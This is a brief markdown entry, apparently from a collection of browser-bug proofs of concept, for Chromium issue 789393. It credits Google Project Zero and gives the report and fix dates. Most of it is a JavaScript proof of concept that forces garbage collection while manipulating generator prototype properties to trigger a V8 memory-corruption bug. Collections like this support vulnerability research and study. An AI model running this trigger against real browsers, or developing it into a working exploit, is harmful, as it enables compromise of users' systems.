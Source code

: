 # CR 789393

- Report: Nov 2017
- Fix: Dec 2017
- Credit: lokihardt of Google Project Zero

## POC
```javascript
function gc() {
    for (let i = 0; i < 20; i++)
        new ArrayBuffer(0x1000000);
}

function trigger() {
    function* generator() {
    }

    for (let i = 0; i < 1022; i++) {
        generator.prototype['b' + i];
        generator.prototype['b' + i] = 0x1234;
    }

    gc();

    for (let i = 0; i < 1022; i++) {
        generator.prototype['b' + i] = 0x1234;
    }
}

trigger();
```

## Reference
- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=789393)
- [ZeroCon (Brian Pak)](https://github.com/theori-io/zer0con2018_bpak)
